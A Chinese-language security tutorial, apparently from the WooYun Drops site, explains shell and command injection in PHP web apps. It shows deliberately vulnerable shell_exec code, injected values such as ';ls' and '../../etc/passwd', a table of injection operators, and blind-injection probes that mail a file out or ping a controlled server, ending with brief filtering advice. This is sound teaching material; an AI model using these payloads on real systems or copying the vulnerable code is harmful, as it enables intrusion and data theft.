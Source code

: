 # Shell Injection & Command Injection

2014/03/06 10:29 | [五道口杀气](http://drops.wooyun.org/author/五道口杀气 "由 五道口杀气 发布") | [web 安全](http://drops.wooyun.org/category/web "查看 web 安全 中的全部文章"), [漏洞分析](http://drops.wooyun.org/category/papers "查看 漏洞分析 中的全部文章") | 占个座先 | 捐赠作者

## 0x00 前言

* * *

Shell 注入(Shell Injection)，也被称为命令注入(Command Injection)，虽然不是最经常提及或发现的漏洞，但是危害巨大。

下面展开讨论一下 shell 注入。

## 0x01 简单介绍

* * *

通常情况下，Web 应用程序会有需要执行 shell 命令的时候，有可能只是使用 Unix sendmail 程序发送电子邮件，或运行指定的 Perl 和 C + +程序。从开发的角度来看，这样做可以减少程序的开发时间。然而，如果数据是通过一个用户界面传递到这些程序中，则攻击者可能能够注入 shell 命令到这些后台程序。

举一个简单的例子：

```
<?php
echo shell_exec('cat '.$_GET['filename']);
?>

```

看起来很好用，我们需要输出文件内容，直接用 cat 输出，比如同目录下有一个 my_great_content.txt 文件，那么请求的 url 就为：

```
www.mysite.com/viewcontent.php?filename=my_great_content.txt 
```

开发只需要一行代码，就可以达到期望的功能。

但是不幸的是，这段代码是不安全的，攻击者只需要使用一个分号（;）就可以继续执行其他的命令。

```
www.mysite.com/viewcontent.php?filename=my_great_content.txt;ls 
```

该页面除了返回文件内容之外呢，还返回了当前目录下的文件

实际上这个文件除了 shell 注入之外，还有目录遍历的问题，使用`../../etc/passwd`等获取其他文件内容。

## 0x02 如何利用

* * *

在前面的内容中，我们看到了如何进行命令注入的简单案例。下面看下 shell 注入的几种情况，以及如何进行 shell 注入。假设一些我们经过分析，已经发现了一个网站有 shell 注入，那么你将有很多种注入的方式。

前面的例子中，获取文件名并使用 cat 命令获取文本内容输出，我们可以使用分号（;）分隔进行注入，然而肯定有开发人员意识到此问题了，可能会过滤分号，但是仍有绕过的方式，下面是在 shell 注入中可能会用的字符，介绍一下：

### 重定向操作符

例如：`<，>>，>`

这些运算符是把结果输出到服务器的其他地方，< 是从文件中而不是从键盘中读入命令输入，可能被用来绕过过滤。>是把结果重定向到文件中，而不是写在命令提示符窗口中。>>把结果追加到别的文本当中，而不改变原来的内容。

### 管道符

例如：`|`

管道符可以把一个命令的输出重定向到下一个命令的输入，例如

```
cat file1 | grep "string" 
```

### inline 命令

例如：`;，,，$`

用来结束之前的命令，直接执行新的命令。

### 逻辑运算符

例如：`$，&&，||`

这些运算符用来对数据进行逻辑上的运算

### 常见的注入语句与结果

```
`shell_command`  执行 shell_command 命令
$(shell_command) 执行 shell_command 命令
| shell_command 执行 shell_command 命令并返回结果
|| shell_command 执行 shell_command 命令并返回结果
; shell_command 执行 shell_command 命令并返回结果
&& shell_command 执行 shell_command 命令并返回结果
> target_file 返回结果覆盖到 target_file 里
>> target_file 返回结果追加到 target_file 里
< target_file 把 target_file 的内容输入到之前的命令当中
- operator 给目标指令添加额外的参数 
```

## 0x03 如何寻找 shell 注入

* * *

主要是寻找你怀疑的某个功能可以是后端用命令来执行的，可以进行简单的测试，由于操作系统系统可能不同，那么你测试的语句也应该是不一样的：

```
(Windows) <normal_input>; dir c:
(Unix)    <normal_input>; ls 
```

同时还要注意执行命令可能存在的引号，例如：

```
<?php
//sending the input directly. Attack with a string like file.txt;ls
echo shell_exec('cat '.$_GET['command']);
?>

<?php
//input is placed in quotes.  You must end the quotes to execute an injection.
//Craft an attack with a string like file.txt";ls
echo shell_exec('cat "'.$_GET['command']).'"';
?>

```

### 盲注

如果有时候并没有命令回显，那么可以用以下方式检测是否存在盲注：

```
file.txt;mail tester@test.com < file.txt    //send an email to yourself
file.txt;ping www.test.com      //ping a webserver you have control of
file.txt;echo "test" > test.txt     //write the word "test" to test.txt. try opening this file with the browser. 
```

## 0x04 如何防御

* * *

尽管上面说有很多方式进行 shell 注入，但是可以用几个简单的方式进行防御，最主要的是过滤所有用户输入的数据，最好是能避免用户的数据直接进入命令执行当中，如果不可避免，尽量避免（; | &）等符号，最好是用白名单。

如果不能是白名单，PHP 当中提供了 escapeshellarg 和 escapeshellcmd 两个函数进行过滤，但这并不能完全保障代码的安全性。需要具体情况再做相应的滤。

from:[`www.golemtechnologies.com/articles/shell-injection#how-to-test-if-website-vulnerable-to-command-injection`](https://www.golemtechnologies.com/articles/shell-injection#how-to-test-if-website-vulnerable-to-command-injection)

版权声明：未经授权禁止转载 [五道口杀气](http://drops.wooyun.org/author/五道口杀气 "由 五道口杀气 发布")@[乌云知识库](http://drops.wooyun.org)

分享到：

### 相关日志

*   [XSS 挑战第二期 Writeup](http://drops.wooyun.org/papers/938)
*   [WordPress < 3.6.1 PHP 对象注入漏洞](http://drops.wooyun.org/papers/596)
*   [Drupal – pre Auth SQL Injection Vulnerability](http://drops.wooyun.org/papers/3197)
*   [webgame 中常见安全问题、防御方式与挽救措施](http://drops.wooyun.org/papers/2677)
*   [PHP 安全编码](http://drops.wooyun.org/tips/135)
*   [配置 ModSecurity 防火墙与 OWASP 规则](http://drops.wooyun.org/tips/2614)